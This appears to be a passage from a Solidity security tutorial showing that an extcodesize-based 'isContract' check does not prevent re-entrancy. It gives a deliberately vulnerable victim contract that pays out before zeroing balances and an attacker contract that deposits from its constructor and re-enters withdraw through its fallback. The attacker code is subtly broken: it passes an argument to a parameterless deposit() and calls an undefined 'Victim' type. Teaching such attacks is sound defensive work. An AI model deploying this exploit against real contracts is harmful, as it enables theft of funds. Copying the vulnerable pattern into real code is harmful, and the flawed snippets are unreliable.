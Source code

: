 One might consider defeating re-entrancy by simply preventing any smart contracts from interacting with your code. You search stackoverflow, you find this snippet of code with tons of upvotes:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Seems to make sense: contracts have code, if the caller has any code, don't allow it to deposit. Let's add it:

```solidity
// THIS CONTRACT HAS INTENTIONAL VULNERABILITY, DO NOT COPY
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Now in order to deposit ETH, you must not have smart contract code at your address. However, this is easily defeated with the following Attacker contract:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
	    if (gasleft() > 40000) {
		    Victim(VICTIM_ADDRESS).withdraw();
	    }
   }
}
```
